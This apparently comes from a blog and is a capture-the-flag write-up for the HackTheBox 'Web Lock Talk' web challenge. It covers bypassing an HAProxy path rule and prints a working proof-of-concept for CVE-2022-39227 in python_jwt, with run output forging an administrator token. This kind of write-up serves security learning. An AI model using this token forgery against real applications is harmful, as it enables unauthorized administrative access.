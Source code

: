 ```yaml
---
layout: post
title: "web locktalk"
date: 2024-03-14 17:18:49 -0700
categories: ctfs
description: The "Web Lock Talk" challenge involved reverse engineering an application accessible via a web interface. By examining configuration files, identifying endpoint restrictions, and exploiting a known CVE in a JWT library, participants aimed to bypass access controls and access the hidden flag endpoint.
parent: HackTheBox - Apocolypse '24
grand_parent: CTF Events
event: "hackthebox-apocolypse"
tags:
- "reverse engineering"
- "web security"
- "access controls"
- "JWT"
- "CVE"
- "exploitation"
---
```


## Web Lock Talk - Reverse Engineering
The "Web Lock Talk" challenge presented a web security puzzle requiring reverse engineering skills to bypass access controls and access a hidden flag endpoint. Despite being comparatively easier than other challenges, obtaining the source code was crucial for a proper solution.

### Analysis and Exploitation:
Upon reviewing the challenge files, including the Dockerfile and configuration files, we gained insight into the infrastructure and application requirements. Notably, examining the HAProxy configuration revealed endpoint restrictions and backend configurations. Additionally, identifying a specific CVE in the Python JWT library hinted at a potential avenue for exploitation.
### HAProxy ACL
```
http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```
### Python Requirements
```
uwsgi
Flask
requests
python_jwt==3.3.3
```
### Our target
```python
@api_blueprint.route('/flag', methods=['GET'])
@authorize_roles(['administrator'])
def flag():
    return jsonify({'message': current_app.config.get('FLAG')}), 200
```
### CVE POC for python_jwt<=3.3.3
```python
#!/usr/bin/env python3
# Proof of concept for the CVE-2022-39227. According to this CVE, there is a flaw in the JSON Web Token verification. It is possible with a valid token to re-use its signature with moified claims. 
# 
# Application: python-jwt
# Infected version: < 3.3.4
# CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-39227
#
# Dependencies: jwcrypto, json, argparse
# Author: user0x1337
# Github: https://github.com/user0x1337
#
from json import loads, dumps
from jwcrypto.common import base64url_decode, base64url_encode
import argparse

parser = argparse.ArgumentParser(prog='CVE-2022-39227-PoC', description='Proof of Concept for the JWT verification bug in python-jwt version < 3.3.4')
parser.add_argument('-j', '--jwt_token', required=True, dest='token', help='Original and valid JWT Token returned by the application')
parser.add_argument('-i', '--injected_claim', required=True, dest='claim', help='Inject claim using the form "key=value", e.g. "username=admin". Use "," for more claims (e.g. username=admin,id=3)')
args = parser.parse_args()

# Split JWT in its ingredients
[header, payload, signature] = args.token.split(".")
print(f"[+] Retrieved base64 encoded payload: {payload}")

# Payload is relevant
parsed_payload = loads(base64url_decode(payload))
print(f"[+] Decoded payload: {parsed_payload}")

# Processing of the user input and inject new claims
try:
    claims = args.claim.split(",")
    for c in claims:
        key, value = c.split("=")
        parsed_payload[key.strip()] = value.strip()
except:
    print("[-] Given claims are not in a valid format")
    exit(1)

# merging. Generate a new payload
print(f'[+] Inject new "fake" payload: {parsed_payload}')
fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))
print(f'[+] Fake payload encoded: {fake_payload}\n')

# Create a new JWT Web Token
new_payload = '{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'
print(f'[+] New token:\n {new_payload}\n')
print(f'Example (HTTP-Cookie):\n------------------------------\nauth={new_payload}')
```
### Exploiting the CVE(s):
By leveraging the identified CVE, which allowed bypassing token signing, we devised a plan to manipulate our role from guest to administrator. After browsing to the site and encountering access restrictions, we employed URL encoding to circumvent the ACL blocking access to the "get ticket" endpoint. Subsequently, we generated a ticket and validated its functionality in the "chat" endpoint.
#### Bypassing ACL
The base page

![alt text](../../../assets/images/ctf/events/hackthebox-apocolypse-24/2024-03-14-web-locktalk.md/2024-03-14-web-locktalk/image.png)

The /api/v1/get_ticket endpoint

![alt text](../../../assets/images/ctf/events/hackthebox-apocolypse-24/2024-03-14-web-locktalk.md/2024-03-14-web-locktalk/image-1.png)

Burpsuite request with altered URI, couldn't use urlencoding as ACL explicitly transcoded it before passing it through to the app

![alt text](../../../assets/images/ctf/events/hackthebox-apocolypse-24/2024-03-14-web-locktalk.md/2024-03-14-web-locktalk/image-2.png)

Contents of the returned JWT through CyberChef

![alt text](../../../assets/images/ctf/events/hackthebox-apocolypse-24/2024-03-14-web-locktalk.md/2024-03-14-web-locktalk/image-3.png)


### Obtaining the Flag:
Despite accessing the chat endpoint, our primary goal was to reach the hidden "flag" endpoint restricted to administrators. Utilizing the CVE exploit, we crafted a new JWT token with an elevated role and injected it into the request header. This allowed us to browse to the "flag" endpoint successfully and obtain the desired results.

#### JWT CVE
```sh
python cve.py -j eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA2MjQ4MjMsImlhdCI6MTcxMDYyMTIyMywianRpIjoiRkpaWEF4LTVYREZrNkNQZmpVTkF0QSIsIm5iZiI6MTcxMDYyMTIyMywicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.HDoQGwwpJJxzxDJg04TegMmVixxGkOkxFvQ--gdRafTv6XNpqZCCNpXksS-WqH_sogj5jUbOULv7bY8ZOFWRzYlKg0sH9kIkYuHBXA2g19htbwq0Vs2YNARGmL28NwVv9p6VmdsoavZsoqB2m3uQ2s-vTD6OzDpe887cwiRv8TidkuxcP4m6PUhrlbvPt4hHYJzhOtRx2GICs38yDj-n1bWOKqfY6mQ6PBURGRvcHugH31vCUwI2REtGqvfTgFbFyfVPLiVj47K_tBwlD-lm9qPd4HnROhsKEC0kJOHUjZCc7Zz0RezYFLNtNNn0ndL5Sbt5uuPnRlzX6MeQQ5l5GQ -i role="administrator"
[+] Retrieved base64 encoded payload: eyJleHAiOjE3MTA2MjQ4MjMsImlhdCI6MTcxMDYyMTIyMywianRpIjoiRkpaWEF4LTVYREZrNkNQZmpVTkF0QSIsIm5iZiI6MTcxMDYyMTIyMywicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ
[+] Decoded payload: {'exp': 1710624823, 'iat': 1710621223, 'jti': 'FJZXAx-5XDFk6CPfjUNAtA', 'nbf': 1710621223, 'role': 'guest', 'user': 'guest_user'}
[+] Inject new "fake" payload: {'exp': 1710624823, 'iat': 1710621223, 'jti': 'FJZXAx-5XDFk6CPfjUNAtA', 'nbf': 1710621223, 'role': 'administrator', 'user': 'guest_user'}
[+] Fake payload encoded: eyJleHAiOjE3MTA2MjQ4MjMsImlhdCI6MTcxMDYyMTIyMywianRpIjoiRkpaWEF4LTVYREZrNkNQZmpVTkF0QSIsIm5iZiI6MTcxMDYyMTIyMywicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9

[+] New token:
 {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA2MjQ4MjMsImlhdCI6MTcxMDYyMTIyMywianRpIjoiRkpaWEF4LTVYREZrNkNQZmpVTkF0QSIsIm5iZiI6MTcxMDYyMTIyMywicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTA2MjQ4MjMsImlhdCI6MTcxMDYyMTIyMywianRpIjoiRkpaWEF4LTVYREZrNkNQZmpVTkF0QSIsIm5iZiI6MTcxMDYyMTIyMywicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"HDoQGwwpJJxzxDJg04TegMmVixxGkOkxFvQ--gdRafTv6XNpqZCCNpXksS-WqH_sogj5jUbOULv7bY8ZOFWRzYlKg0sH9kIkYuHBXA2g19htbwq0Vs2YNARGmL28NwVv9p6VmdsoavZsoqB2m3uQ2s-vTD6OzDpe887cwiRv8TidkuxcP4m6PUhrlbvPt4hHYJzhOtRx2GICs38yDj-n1bWOKqfY6mQ6PBURGRvcHugH31vCUwI2REtGqvfTgFbFyfVPLiVj47K_tBwlD-lm9qPd4HnROhsKEC0kJOHUjZCc7Zz0RezYFLNtNNn0ndL5Sbt5uuPnRlzX6MeQQ5l5GQ"}

Example (HTTP-Cookie):
------------------------------
auth={"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA2MjQ4MjMsImlhdCI6MTcxMDYyMTIyMywianRpIjoiRkpaWEF4LTVYREZrNkNQZmpVTkF0QSIsIm5iZiI6MTcxMDYyMTIyMywicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTA2MjQ4MjMsImlhdCI6MTcxMDYyMTIyMywianRpIjoiRkpaWEF4LTVYREZrNkNQZmpVTkF0QSIsIm5iZiI6MTcxMDYyMTIyMywicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"HDoQGwwpJJxzxDJg04TegMmVixxGkOkxFvQ--gdRafTv6XNpqZCCNpXksS-WqH_sogj5jUbOULv7bY8ZOFWRzYlKg0sH9kIkYuHBXA2g19htbwq0Vs2YNARGmL28NwVv9p6VmdsoavZsoqB2m3uQ2s-vTD6OzDpe887cwiRv8TidkuxcP4m6PUhrlbvPt4hHYJzhOtRx2GICs38yDj-n1bWOKqfY6mQ6PBURGRvcHugH31vCUwI2REtGqvfTgFbFyfVPLiVj47K_tBwlD-lm9qPd4HnROhsKEC0kJOHUjZCc7Zz0RezYFLNtNNn0ndL5Sbt5uuPnRlzX6MeQQ5l5GQ"}
```

Using the token in the request

![alt text](../../../assets/images/ctf/events/hackthebox-apocolypse-24/2024-03-14-web-locktalk.md/2024-03-14-web-locktalk/image-4.png)

### Conclusion:
The "Web Lock Talk" challenge exemplified the importance of thorough analysis and exploitation of known vulnerabilities in web applications. By strategically leveraging the identified CVE, we bypassed access controls and achieved the desired outcome. This experience highlights the significance of understanding application security mechanisms and exploiting vulnerabilities to solve complex web security challenges.

